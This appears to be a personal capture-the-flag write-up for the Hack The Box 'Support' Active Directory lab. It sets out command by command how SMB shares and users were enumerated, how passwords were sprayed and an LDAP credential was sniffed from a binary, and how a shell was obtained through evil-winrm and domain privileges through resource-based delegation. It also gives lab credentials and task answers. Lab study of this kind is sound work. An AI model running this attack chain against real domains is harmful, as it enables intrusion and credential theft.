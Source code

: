 HTB - Support (Easy) 
AD/Windows

**nmap**
`sudo nmap -p- -Pn -T5 10.10.11.174 -oN nmap`



---
**SMB**

check shares with `netexec
`nxc smb rhost -u '' -p '' --shares`

check shares with `anonymous/guest` user
`nxc smb rhost -u 'anonymous' -p '' --shares`
![[Pasted image 20250506122620.png]]

we can see ``IPC`` is a `Relative Identifier (rid)` so we can bruteforce it
to enumerate users
`nxc smb rhost -u 'anonymous' -p '' --rid-brute
make a txt file of users

**asreproast**
steal asrep hashes of users
``impacket-GetNPUsers -request -dc-ip rhost -userfile ./users.txt support.htb``

nvm, it's useless anyway so dont bother
![[Pasted image 20250506130040.png]]

we can also see `support-tools` is also readable, so we can see its contents
`smbclient -U anonymous //rhost/support-tools`

---
**getting LDAP credentials**
install `mono` in your PC, if you dont have it yet, 
go to `https://www.mono-project.com/docs/getting-started/install/linux/`
after that, open wireshark and capture packets,
and then run the binary using 
`sudo wine UserInfo.exe`
in wireshark, look for packet that says `bindRequest` and you can find the credential

![[Pasted image 20250506180441.png]]

**verify credential**
check if other users uses the same password
`nxc smb rhost -u users.txt -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-success`

use netexec to check ldap permission on shares
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares`

check for passwords on user description
it is important because some of the admins dont realize that other users can see user description and sometimes they put the user password there
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --users`

shows nothing
![[Pasted image 20250506185438.png]]


**bloodhound**
`nxc smb rhost -u 'ldap' -p pass.txt --bloudhound -c all --dns-server rhost`
OR
`bloodhound-python -c all -u ldap -p pass.txt -d support.htb -ns rhost`

**LDAP**
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"`

it's messy. you can output it to txt file and grep
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldapsearch.txt`

something's interesting in one of it's user bearing `info` tag
`cat ldapsearch.txt | grep info`
![[Pasted image 20250506190914.png]]

**verify credential 2**
`nxc smb rhost -u users.txt -p 'Ironside47pleasure40Watchful' --continue-on-success`
the account `support` uses that password

**dump shares with support user**
`nxc smb 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful' --shares    `

**connect and spawn shell**
`evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'`



---
**privilege escalation**
you can  check the bloodhound data and you can see that user `support` is in the group `shared support account` and that group has `genericall` to the `Domain Controller`

![[Pasted image 20250506195053.png]]


**impacket**
add computer
`impacket-addcomputer -method SAMR -computer-name 'YAWA' -computer-pass 'YAWA KA' -dc-host 'dc.support.htb' 'support.htb/support:Ironside47pleasure40Watchful'`

`impacket-rbcd -delegate-from 'YAWA$' -delegate-to 'DC$' -action 'write' 'support.htb' 'support.htb/support:Ironside47pleasure40Watchful'   `



---
<h3>QUESTIONS</h3>
Task 1: How many shares is Support showing on SMB?
`6`
  
Task 2: Which share is not a default share for a Windows domain controller?
`support-tools`

Task 3: Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?
`UserInfo.exe.zip`

Task 4: What is the hardcoded password used for LDAP in the `UserInfo.exe` binary?
